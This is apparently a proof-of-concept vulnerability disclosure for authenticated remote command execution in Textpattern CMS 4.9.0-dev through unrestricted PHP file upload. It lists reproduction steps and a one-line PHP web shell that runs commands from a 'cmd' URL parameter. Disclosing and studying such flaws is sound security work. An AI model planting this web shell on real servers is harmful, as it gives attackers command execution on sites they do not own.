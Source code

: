 # TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload
Textpattern version 4.9.0-dev is vulnerable to Remote Code Execution (RCE) due to the file upload functionality allowing unrestricted PHP file uploads, potentially leading to remote code execution.

<B>Vulnerable URL:</B><br> 
http://localhost/textpattern/textpattern/index.php?event=file&step=file_insert<br> 

<B>Reproduction:</B><br> 
1. Log in as the root user in Textpattern.<br> 
2. Create a PHP web shell by making a file named rce.php with the content `</?php echo shell_exec($_GET['cmd']); ?>` .<br> 
3. Navigate to 'Content > Files' and upload the rce.php web shell.<br>
    ![alt text](https://github.com/patrickdeanramos/TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload/blob/main/RCE-TextPatter-1.png?raw=True)
5. Access the web shell directly by going to https://<url>/textpattern/files/rce.php?cmd=id.<br> 
6. You can now interact with the web shell and execute commands using this `cmd=id`.<br>
   ![alt text](https://github.com/patrickdeanramos/TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload/blob/main/RCE-TextPattern-2.png?raw=True)

<B>Proof Of Concept:</B><br> 
![alt text](https://github.com/patrickdeanramos/TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload/blob/main/textpattern-poc.png?raw=True)

<B>Authors:</B><br> 
Patrick Dean Ramos<br> 
Nathu Nandwani<br> 
Junnair Manla<br> 
Kevin Rosales<br> 
Steve Nyan<br> 
Shanavas Shakeer<br> 
Lani Lambert<br> 

